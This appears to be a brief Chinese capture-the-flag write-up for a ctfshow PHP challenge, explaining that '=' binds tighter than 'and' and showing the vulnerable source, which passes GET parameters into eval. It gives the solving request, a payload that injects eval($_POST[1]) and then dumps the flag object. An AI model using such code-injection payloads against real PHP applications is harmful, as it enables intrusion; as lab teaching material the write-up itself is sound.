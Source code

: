 # 知识点
0x2d   => '-'<br />但是php的运算具有优先级
:::tips
&& > = > and
:::
# 思路
```python
<?php

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }
    
}


?>
```
```php
GET ?v1=1&v2=eval($_POST[1]) ?>//&v3=;
POST 1=var_dump($ctfshow); 
```
![image.png](./images/20231017_2349434599.png)
